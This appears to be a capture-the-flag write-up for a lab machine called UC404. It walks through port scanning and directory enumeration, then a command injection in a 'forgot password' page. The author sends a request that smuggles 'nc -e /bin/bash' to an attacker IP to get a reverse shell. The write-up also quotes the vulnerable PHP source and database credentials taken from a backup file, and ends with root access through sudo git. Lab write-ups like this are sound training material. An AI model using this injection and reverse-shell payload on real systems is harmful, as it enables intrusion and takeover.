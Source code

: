 # UC404

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.202.109
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 21:34 +08
Nmap scan report for 192.168.202.109
Host is up (0.17s latency).
Not shown: 65527 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
41473/tcp open  unknown
45259/tcp open  unknown
49415/tcp open  unknown
54505/tcp open  unknown
```

NFS is open, which might have stuff we can mount on.

### Rabbit Holes

NFS had nothing:

```
$ showmount -e 192.168.202.109      
Export list for 192.168.202.109:
```

Port 80 shows some dashboard that looks static:

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

A detailed `nmap` scan reveals that there's a `.git` repository present:

```
$ sudo nmap -p 80 -sC -sV --min-rate 3000 192.168.202.109
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 21:37 +08
Nmap scan report for 192.168.202.109
Host is up (0.17s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-git: 
|   192.168.202.109:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Remotes:
|       https://github.com/ColorlibHQ/AdminLTE.git
|_    Project type: Ruby on Rails web application (guessed from .gitignore)
|_http-title: AdminLTE 3 | Dashboard
```

However, there's nothing interesting within it.&#x20;

### Web Enumeration --> Cmd Injection

I ran a `gobuster` scan on port 80 and found one interesting directory:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.202.109 -t 100
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.202.109
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/06 21:37:30 Starting gobuster in directory enumeration mode
===============================================================
/pages                (Status: 301) [Size: 318] [--> http://192.168.202.109/pages/]
/demo                 (Status: 301) [Size: 317] [--> http://192.168.202.109/demo/]
/plugins              (Status: 301) [Size: 320] [--> http://192.168.202.109/plugins/]
/docs                 (Status: 301) [Size: 317] [--> http://192.168.202.109/docs/]
/db                   (Status: 301) [Size: 315] [--> http://192.168.202.109/db/]
/dist                 (Status: 301) [Size: 317] [--> http://192.168.202.109/dist/]
/build                (Status: 301) [Size: 318] [--> http://192.168.202.109/build/]
/LICENSE              (Status: 200) [Size: 1082]
/under_construction   (Status: 301) [Size: 331] [--> http://192.168.202.109/under_construction/]
```

The `under_construction` part looked the most promising. It just brought us to a login page:

<figure><img src="../../../.gitbook/assets/image (1) (15).png" alt=""><figcaption></figcaption></figure>

Default credentials don't work with this one. I was a bit stuck here, but eventually decided to check the page source of all pages. There was this interesting bit within the source for the 'Forgot Password' page:

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Blacklisting some characters means that there is a potential injection point here. I was curious about that '1' and what it was reflecting. I tested this a bit by sending POST requests, but it didn't really work.&#x20;

I thought for a while, and decided to change it to GET requests instead of POST, and it actually worked!

<figure><img src="../../../.gitbook/assets/image (5) (2) (6).png" alt=""><figcaption></figcaption></figure>

We can get a reverse shell by sending this request:

```http
GET /under_construction/forgot.php?email=%0a+nc+-e+/bin/bash+192.168.45.179+21 HTTP/1.1
Host: 192.168.202.109
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: http://192.168.202.109
Connection: close
Referer: http://192.168.202.109/under_construction/forgot.php
Upgrade-Insecure-Requests: 1

```

<figure><img src="../../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

Super CTF-ish initial access. We can read the source code to see how it works:

```php
<?php
//system("php sendmail.php " . $_GET['email'], $output); print_r($output)
$badUrl = $_GET['email'];
$goodUrl = str_replace(';', '?', $badUrl);
system("php sendmail.php " . $goodUrl, $output); print_r($output);
?>
```

## Privilege Escalation

### Brian Creds

I ran a `linpeas.sh` scan to enumerate for me. It picked up on this:

```
[+] Backup folders
drwxr-xr-x 2 root root 4096 Jan 27 16:07 /var/backups                                        
total 16
-rw-r--r-- 1 root     root     10832 Oct 27  2020 apt.extended_states.0
-rw-r--r-- 1 www-data www-data   787 Sep 18  2020 sendmail.php.bak
```

We can read it to find more credentials:

{% code overflow="wrap" %}
```php
www-data@UC404:/tmp$ cat /var/backups/sendmail.php.bak 
<?php                                                                                        
if(isset($_POST['submit']))                                                                  
{ 
$connect=mysql_connect("localhost","brian","BrianIsOnTheAir789") or die("Could not connect to database");
```
{% endcode %}

We can then `su` to `brian`:

<figure><img src="../../../.gitbook/assets/image (14) (2).png" alt=""><figcaption></figcaption></figure>

### Sudo Git

Since we had the password, we can check `sudo` privileges:

```
brian@UC404:/tmp$ sudo -l
Matching Defaults entries for brian on UC404:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User brian may run the following commands on UC404:
    (ALL) NOPASSWD: /usr/bin/git
```

We can follow GTFOBins to get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (8) (11).png" alt=""><figcaption></figcaption></figure>

Rooted!
